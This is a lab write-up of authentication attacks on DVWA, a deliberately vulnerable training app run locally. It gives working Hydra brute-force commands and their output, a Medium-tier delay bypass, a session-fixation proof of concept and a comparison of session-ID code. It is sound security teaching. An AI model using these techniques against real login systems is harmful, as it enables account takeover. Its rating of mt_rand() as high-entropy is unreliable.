




# Identification and Authentication Failures — DVWA (Brute Force, Session Fixation & Weak Session IDs)

**OWASP Category:** A07:2021 – Identification and Authentication Failures
**Target:** DVWA "Brute Force" module and DVWA "Weak Session IDs" module
**Security Levels Tested:** Low (full exploit), Medium (delay-bypass), High & Impossible (source-level comparison)
**Evidence format:** Screenshots + real terminal output, reproduced verbatim below.

---

## 1. Overview

A07 covers weaknesses in how an application verifies *who a user is* and *proves* that identity across a session — and unlike injection-class bugs, most of these flaws need no code defect at all, just a missing control. This lab explored the category from three connected angles against the same target:

1. **Credential brute force** — automated login guessing against a GET-based login form using Hydra, including troubleshooting two real Hydra syntax errors along the way.
2. **Delay-based defense bypass** — proving DVWA Medium's `sleep()` throttle is defeated by Hydra's default multi-threading, and reasoning about what an effective defense actually looks like.
3. **Session fixation** — a full end-to-end proof of concept showing that a session ID captured *before* login becomes fully authenticated the moment a victim logs in elsewhere, with zero credentials touched by the attacker.
4. **Weak Session ID generation** — a source-code comparison across all four DVWA security tiers, showing that hashing a predictable value (High) is not meaningfully more secure than not hashing it at all (Low/Medium).

---

## 2. Environment

| Component | Details |
|---|---|
| Target | DVWA (Damn Vulnerable Web Application), v1.10 *Development* |
| Deployment | Docker (`vulnerables/web-dvwa`), `localhost:8080` |
| Host OS | Windows 11 |
| Attacker/tooling environment | Kali Linux via WSL2 |
| Tools | Hydra v9.7 (THC-Hydra), Chrome DevTools (Application → Cookies), Incognito browser window |
| Wordlist | `/usr/share/wordlists/rockyou.txt` |

---

## 3. Steps to Reproduce

### 3.1 Reconnaissance of the login form

Viewing source on the Brute Force page (Low) revealed the login form uses `method="GET"`:

```html
<form action="#" method="GET">
    Username:<br />
    <input type="text" name="username"><br />
    Password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password"><br />
    <input type="submit" value="Login" name="Login">
</form>
```

**Finding:** submitting via GET means credentials are appended directly to the URL — a secondary exposure risk beyond brute-forceability alone (they land in browser history and any server access log). DVWA's own system-info panel also discloses the correct username outright at Low security (`Username: admin`), narrowing the entire attack down to the password.


*Figure 1 — GET-method login form and the disclosed correct username in DVWA's system-info panel.*

A manual wrong-password submission confirmed the exact request structure:

```
http://localhost:8080/vulnerabilities/brute/?username=admin&password=gmhghmdgh&Login=Login#
```

...and the exact failure string returned by the app: `Username and/or password incorrect.` — required by Hydra to detect failed attempts.

### 3.2 Building and troubleshooting the Hydra attack (Low)

Two required inputs were pulled from the browser: a valid `PHPSESSID` (DVWA requires an app-level session cookie just to reach the page) and the `security=low` cookie.

**Attempt 1 — failed:**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=sen54e32uagpgf69huavv3gbs0"
```

```
[ERROR] no valid optional parameter type given: F
```

**Root cause:** the literal colon inside `Cookie: security=low` was read by Hydra's parser as a field delimiter, corrupting the rest of the argument string.

**Attempt 2 — colon escaped, still failed:**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie\: security=low; PHPSESSID=sen54e32uagpgf69huavv3gbs0"
```

```
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[ERROR] no valid optional parameter type given: F
```

**Root cause:** the `H=` (header) field was placed *after* the `F=` (failure-string) field. Hydra's `http-get-form` module requires the header field to precede the failure/success condition in the argument order.

**Attempt 3 — corrected (header field moved before F=):**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: security=low; PHPSESSID=sen54e32uagpgf69huavv3gbs0:F=incorrect"
```

```
[8080][http-get-form] host: localhost   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```


*Figure 2 — Both syntax errors and the final successful Hydra run recovering `admin:password`.*

The result was manually verified by logging into DVWA through the browser with the recovered credentials.

### 3.3 Medium security — defeating the `sleep()` delay

DVWA Medium adds a server-side `sleep()` after each failed attempt. The identical command was re-run with `security=medium`:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: security=medium; PHPSESSID=sen54e32uagpgf69huavv3gbs0:F=incorrect"
```

**Result:** the password was recovered with no perceptible slowdown versus Low.

**Root cause:** Hydra runs **16 parallel connections by default**. A per-request `sleep()` delays each thread individually but not Hydra's aggregate throughput, since all 16 threads are delayed *simultaneously*, not one after another. Since the correct password sits early in rockyou.txt, one of the sixteen concurrent threads reached it before the cumulative delay became meaningful.

### 3.4 Session fixation — end-to-end proof of concept

First, session behavior was checked directly: the `PHPSESSID` value was compared before and after a normal login through the browser form — it **did not change**. This confirmed DVWA never regenerates the session ID at authentication, which is the precondition for session fixation.

**Attack steps performed:**

1. Opened an Incognito ("victim") window at the DVWA login page *without* logging in, and captured its pre-login `PHPSESSID` (`SESSION_X`).
2. In a separate ("attacker") browser, manually overwrote the local `PHPSESSID` cookie to `SESSION_X` via DevTools, then refreshed — forcing the attacker's browser onto the same, still-unauthenticated session.
3. In the victim (incognito) window, logged in normally with valid credentials.
4. Returned to the attacker browser (which had never submitted any login form) and refreshed the dashboard.


*Figure 3 — The "attacker" browser, holding only a pre-login session ID fixed onto it beforehand, is served the authenticated DVWA dashboard the instant the victim logs in elsewhere.*

**Result:** the attacker browser was immediately authenticated — no password entered, no cookie stolen after the fact, no interaction with the victim's machine beyond having pre-set a known session ID.

### 3.5 Weak Session IDs — source comparison across all four tiers

Source was pulled directly from DVWA's Weak Session IDs module via its View Source feature:

**Low:**
```php
$_SESSION['last_session_id']++;
$cookie_value = $_SESSION['last_session_id'];
setcookie("dvwaSession", $cookie_value);
```
A plain, sequential in-memory counter. Fully predictable — one valid ID reveals all adjacent valid IDs.

**Medium:**
```php
$cookie_value = time();
setcookie("dvwaSession", $cookie_value);
```
The raw Unix timestamp, verified independently against the system's own `date +%s` output — the "token" is just the visible system clock.

**High:**
```php
$_SESSION['last_session_id_high']++;
$cookie_value = md5($_SESSION['last_session_id_high']);
setcookie(...);
```


*Figure 4 — DevTools Application panel with security level confirmed as `high`, inspecting the `dvwaSession` and `PHPSESSID` cookie values.*

**Impossible:**
```php
$cookie_value = sha1(mt_rand() . time() . "Impossible");
setcookie(..., true, true);
```
Randomness sourced from `mt_rand()` rather than a counter, plus `secure`/`httponly` cookie flags — unlike the other three tiers.

| Tier | Generation Method | Effective Entropy |
|---|---|---|
| Low | Sequential counter | None — trivially guessable |
| Medium | Unix timestamp | None — equals the visible system clock |
| High | MD5(sequential counter) | None — hash of the same low-entropy Low-tier input |
| Impossible | SHA1(random + time + salt) | High — randomness sourced from `mt_rand()` |

---

## 4. Why It Worked

**Brute force succeeded** because the login endpoint enforced no rate limiting, lockout, or CAPTCHA — Hydra could submit unlimited attempts at full speed, and the correct password's early position in a common wordlist did the rest.

**The Medium delay was bypassed** because `sleep()` throttles per-request latency, not aggregate request volume. An attacker simply adds threads to compensate — a defense that doesn't account for parallelism isn't a meaningful defense at scale.

**Session fixation succeeded** because DVWA binds authentication state entirely to a session identifier it never rotates. Whoever holds that identifier before login automatically inherits the authenticated state after — no credential knowledge required, only advance possession of the ID.

**High's session IDs remain weak** because entropy is a property of the *input*, not the hash function applied to it. Hashing a small, fully enumerable input space (an incrementing counter) is entirely precomputable — this is the same principle a rainbow-table attack exploits, and it's the core reason High only *looks* stronger than Low while offering no real improvement in unpredictability.

**The connecting thread across all four exercises:** a control that is technically present is not the same as a control that is effective. A delay exists but doesn't scale with attacker parallelism; a hash exists but is applied to a value with no real entropy; a session mechanism exists but never rotates its own identifier.

---

## 5. Impact & Fix

| Finding | Fix |
|---|---|
| No brute-force protection | Per-account and per-IP rate limiting, plus temporary lockout after N failed attempts |
| Credentials sent via GET | Change the login form's method to POST |
| `sleep()`-only throttling | Pair with lockout/rate limiting that accounts for concurrent/parallel requests |
| Session ID never regenerated at login | Call `session_regenerate_id()` immediately on successful authentication and invalidate the prior ID |
| Session cookies missing Secure/HttpOnly | Set `Secure`, `HttpOnly`, and `SameSite` on all session cookies (as already done correctly at the Impossible tier) |
| Predictable session ID generation (Low/Medium/High) | Generate tokens from a cryptographically secure random source (e.g. `random_bytes()`), never from counters, timestamps, or hashes of either |

**Suggested secure session generation (illustrative, following the pattern DVWA's own Impossible tier already uses):**

```php
$cookie_value = bin2hex(random_bytes(32));
setcookie("dvwaSession", $cookie_value, time()+3600, "/", $_SERVER['HTTP_HOST'], true, true);
```

---

## 6. Real-World Relevance

- **Credential stuffing and brute force remain among the highest-volume attack types in real breaches** — precisely because they require no application vulnerability, only a missing rate-limit control.
- **Session fixation has caused real-world account takeovers** in applications that accept session IDs via URL parameters or fail to rotate them post-login — the exact mechanism reproduced here.
- **"Looks hashed, therefore secure" is a recurring real mistake** — MD5-of-a-counter is functionally similar to real-world cases where developers hash predictable values (sequential user IDs, timestamps) and assume the hash alone provides security.
- **This lab is a direct illustration of why A07 is graded as its own category**: none of the four exercises required a single line of exploitable application logic beyond the authentication/session layer itself — the vulnerability is the absence of specific, purpose-built controls (lockout, regeneration, real randomness), not a coding bug.
